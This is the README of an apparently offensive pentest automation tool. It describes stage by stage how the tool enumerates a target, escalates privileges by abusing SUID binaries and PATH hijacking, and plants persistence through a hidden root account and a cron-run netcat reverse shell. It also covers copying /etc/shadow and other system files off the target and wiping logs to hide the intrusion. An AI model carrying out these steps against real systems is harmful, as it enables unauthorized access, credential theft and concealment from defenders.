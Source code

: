 # the terminator!
+++ a tool for automating simple methods for the enumeration, privilege escalation, persistence, exfiltration, and reporting stages of a pentest +++

# contents
the terminator automates every stage of pentesting except initial exploitation (there are too many possible ways to get an initial shell for it to be reliably automated, and it can depend on a multitude of nuanced vulnerabilities, so that stage is up to you, good luck!)
- terminator.py - tool for automating simple methods for enumeration, privilege escalation, persistence, exfiltration, and reporting

you can also use the individual scripts instead of terminator.py (which contains all of these by itself)
- enum.py - script for automating common enumeration techniques (nmap,web,ftp,smb,nfs)
- priv.py - script to automate common privelege escalation techniques
- pers.py - script for establishing persistence on compromised target machine with root permissions.
- exfil.py - script for writing system data and /etc files to file, scp the file to local machine, and covers tracks by clearing logs.
- report.py - script to compile pentest data from the above scripts and create a report with it

# how to use
terminator.py is used by itself and is comprised of enum.py, exfil.py, priv.py, pers.py, and report.py. 
for this reason, you can either use terminator.py by itself, or use each of the other scripts individually. because terminator only automates the most common and simple penetration testing procedures, you will still need to put in some manual work if terminator is not successful. this tool is simply to speed up and automate the simple tasks.

- clone the repository to your computer with "git clone https://github.com/suffs811/the-terminator.git"
- if you choose to only download terminator.py and not the entire repo, you will need to specify a directory wordlist for webpage enumeration ("-w" with the "enum" module of terminator.py)

<>note: for full terminator productivity, you will need to run the script *four* separate times:
first on your own machine, second time on the target machine after gaining initial shell, third time on target machine after gaining root privileges, and fourth time on your local machine to compile report.

*for help with usage, use the -h flag or grep for 'usage' in the script (grep "usage" terminator.py)*

*hint: local machine = your own machine*

# syntax
(stage 1-enumerating target from local machine):
- python3 terminator.py enum -t <target_ip_to_enumerate>
(optional: -w <path_to_directory_wordlist> (otherwise, terminator will use default list))

(stage 2-privilege escalation after gaining shell on target machine):
- python3 terminator.py priv

(stage 3-persistence/data exfiltration after gaining root privileges on target machine):
- python3 terminator.py root -u <new_user_name> -p <new_user_passwd> -l <local_ip> -x <local_listening_port>
(optional: -f (bypass root permissions check))

(stage 4-create report on local machine):
- python3 terminator.py report -o <output_file_name>

# details
stage 1 - enumeration
- initial nmap scan to find open ports on host
- secondary nmap scan to identify services running on open ports
- if http in use, run nikto, gobuster, curl robots.txt, and searchsploit for service version exploits
- if smb in use, run enum4linux and nmap scripts to scan smb shares and users
- if ftp in use, run nmap scripts to determine if ftp allows 'anonymous' logon
- if nfs in use, run nmap scripts to identify service status and mounted shares

stage 2 - privilege escalation
- attempt to disable history logging of current session and create current backups of log files
- attempt running sudo-l to find commands user can run as sudo, then run the command if it does not require user interaction; if it does, then print to screen
- find files with suid bitset and if the binary exists in terminator's dictionary, execute the code; if it needs user interaction, print to screen
- run strings on suid files to find commands that do not specify command's full path, then create binary file in /tmp, echo '/bin/bash -p' to file, add /tmp to $PATH, execute binary
- check if /etc/passwd or /etc/shadow are world-writable; if either one is, create password from user input and append new root user to the file; su user for root
- check for root permissions; if not root, suggest manually finding privesc vector

stage 3 - persistence and data exfiltration
- check for root permissions and suggest -f to bypass root check
- if root permissions is true, create password from user input, add new root user to /etc/passwd, /etc/shadow files and add to root group
- create shell script at /dev/shm/.data/data_log containing netcat reverse shell at ip:port from user input
- create cronjob in /etc/crontab to execute the shell script every 5 minutes

- write id,whoami,netstat and /etc/passwd,/etc/shadow,/etc/hosts,/etc/crontab,/etc/exports, and suid files to single file and scp the file to local machine using ip from user input; *scp will prompt for user's root password on local machine*
- cover tracks by clearing log files and history, restoring log files to the copies made during stage 2, deleting all files created by terminator, and deleting terminator.py itself

stage 4 - report writing

# TO DO
- finish report.py script
- test final terminator.py script

# credit and license
the terminator was created by suffs811 / https://github.com/suffs811.

This project is licensed under the MIT License - see the LICENSE file for details.

-+- Leave a comment if you have any questions! -+-
